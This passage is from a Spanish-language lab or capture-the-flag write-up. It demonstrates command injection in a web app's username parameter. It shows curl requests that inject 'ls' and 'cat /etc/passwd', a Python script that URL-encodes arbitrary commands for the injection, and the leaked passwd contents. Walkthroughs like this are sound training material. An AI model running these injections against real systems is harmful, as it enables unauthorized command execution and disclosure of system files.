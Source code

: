 Si hacemos eso e intentamos meter las credenciales anteriores no nos funcionara, por lo que haremos lo siguiente con la siguiente herramienta...

### curl

Siguiendo ese codigo de `python` haremos lo siguiente...

```shell
curl -X POST 'http://<IP>:5000/?username=ls&password=test'
```

Info:

```
app.py
```

Por lo que fue exitoso la inyeccion de codigo...

Crearemos un script de `python` para que nos codifique la `URL` y asi podamos de hacer inyeccion de codigo concatenando varios comandos...

```python
import urllib.parse

username = "<COMMAND>"
password = "test"

# Codificar los parámetros de la URL
encoded_username = urllib.parse.quote(username)
encoded_password = urllib.parse.quote(password)

# Construir la URL codificada
url = f"http://<IP>:5000/?username={encoded_username}&password={encoded_password}"

print(url)
```

Si donde pone `<COMMAND>` ponemos un `cat /etc/passwd` y lo ejecutamos, obtendremos lo siguiente...

```shell
python3 <SCRIPT_PYTHON>.py
```

Info:

```
http://<IP>:5000/?username=cat%20/etc/passwd&password=test
```

Por lo que lo enviamos con `curl`...

```shell
curl -X POST 'http://<IP>:5000/?username=cat%20/etc/passwd&password=test'
```

Info:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
```